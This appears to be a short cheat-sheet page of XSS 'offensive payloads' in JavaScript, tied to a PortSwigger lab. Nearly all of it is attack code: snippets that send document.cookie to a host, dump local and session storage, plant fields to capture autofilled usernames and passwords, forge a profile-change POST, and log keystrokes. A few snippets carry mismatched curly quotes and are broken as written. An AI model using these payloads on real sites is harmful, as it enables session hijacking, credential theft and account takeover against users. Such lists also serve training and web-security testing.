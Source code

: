 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Offensive Payloads

## Fetch API

```javascript
fetch('http://localhost/endpoint’)
```

## Building Requests

```javascript
XMLHTTP Request:

let xhr = new XMLHttpRequest()

xhr.open('GET','http://localhost/endpoint',true)

xhr.send('email=update@email.com’)
```

## Stealing Cookies

```javascript
<img src="http://localhost?c='+document.cookie+'" />

fetch("http://localhost?c="+document.cookie);
```

## Accessing Local & Session Storage

```javascript
let localStorageData = JSON.stringify(localStorage)

let sessionStorageData = JSON.stringify(sessionStorage)
```

## Autofilled Creds

```javascript
// create the input elements

let usernameField = document.createElement("input")

usernameField.type = "text"

usernameField.name = "username"

usernameField.id = "username"

let passwordField = document.createElement("input")

passwordField.type = "password"

passwordField.name = "password"

passwordField.id = "password"

// append the elements to the body of the page

document.body.appendChild(usernameField)

document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)

setTimeout(function() {

 console.log("Username:", document.getElementById("username").value)

 console.log("Password:", document.getElementById("password").value)

}, 1000);
```

## Session Riding

```javascript
let xhr = new XMLHttpRequest();

xhr.open('POST','http://localhost/updateprofile',true);

xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');

xhr.send('email=updated@email.com’);
```

## Keylogging

```javascript
document.onkeypress = function(e) {

 get = window.event ? event : e

 key = get.keyCode ? get.keyCode : get.charCode

 key = String.fromCharCode(key)

 console.log(key)

}
```

## Examples

The example below is based on PortSwigger's _Exploiting cross-site scripting to steal cookies_ lab.
